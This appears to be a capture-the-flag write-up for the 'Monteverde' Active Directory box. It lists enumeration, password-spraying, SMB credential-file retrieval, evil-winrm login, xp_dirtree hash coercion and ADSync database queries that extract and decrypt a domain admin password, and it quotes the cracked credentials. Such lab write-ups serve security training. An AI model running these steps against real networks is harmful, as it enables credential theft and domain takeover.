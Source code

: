 #Pwned
```IP
10.10.11.10
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 10.10.11.10 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-12-22 09:50:25Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## LDAP
```
ldapsearch -H ldap://10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL"
```
We retrieve some users:
```
smorgan
roleary
dgalanos
mhope
svc-netapp
svc-bexec
svc-ata
SABatchJobs
```
Further enumeration with this usernames as passwords gives us a positive in smb:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222110406.png?raw=true)
But it doesn't retrieve any share.
## RPC
With RPC we get similar results to LDAP
```
rpcclient -U '' 10.10.10.172 -N
enumdomusers
querydispinfo
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222110713.png?raw=true)
But it displays a extra user called `AAD_987d7f2f57d2` with description `Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTVERDE.`
We add it to our user list
## SMB
With all our usernames we can list again smb, and we will get SABatchJobs as the only hit
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222114916.png?raw=true)
Lets enumerate with:
```
smbclient //10.10.10.172/users$ --password='SABatchJobs' -U 'SABatchJobs' -c 'recurse;ls'
```
We will see an Azure.xml file that we can download and open, and will contain a password:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222115238.png?raw=true)
```
4n0therD4y@n0th3r$
```
Executing
```
nxc winrm 10.10.10.172 -u users.txt  -p '4n0therD4y@n0th3r$'
```
We get mhope user pwned!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222115411.png?raw=true)
```
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```
# Exploitation

# PrivEsc

## Manual
```

```
Interesting software
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222115731.png?raw=true)
Let's try accessing mssql
```
sqlcmd -q 'select @@version;'
```
It seems like we have query execution:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222124743.png?raw=true)
We try xp_cmdshell command execution but we don't have permissions. With xp_dirtree and responder we get a hash though:
```
sqlcmd -q "xp_dirtree '\\10.10.14.17\test';"
```
It seems like we get a hash but it doesn't crack. So the next thing to try would be to enumerate tables.
There is a ADSync database that looks suspicious, but manually enumerating it is exhausting. If we google `ADSync mssql database` we will learn that it is a database part of the Microsoft Entra Could Sync, a sync client for Azure which helps users to set up and manage their sync preferences online. Including Password syncronization.
https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-install-existing-database
https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-azure-ad-connect-v2
And searching how to pentest this we get to the following blog: 
https://blog.xpnsec.com/azuread-connect-for-redteam/
Which suggests us to use `mms_management_agent` table to get some encrypted passwords
```
sqlcmd -q "USE ADSync;SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222132514.png?raw=true)
When running the entire script located in the latter blog, we get a WinRM crash. So if we run each powershell command separately, we see that it is not connecting correctly to the MSSQL server:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163115.png?raw=true)
A quick google search provides us with some alternative sintax to do the connection:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163305.png?raw=true)
So now it is time to edit our script and transfer it once again to the target machine:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163405.png?raw=true)
And finally we get the decrypted password!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163539.png?raw=true)
```
d0m@in4dminyeah!
```
And we get root:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163651.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement

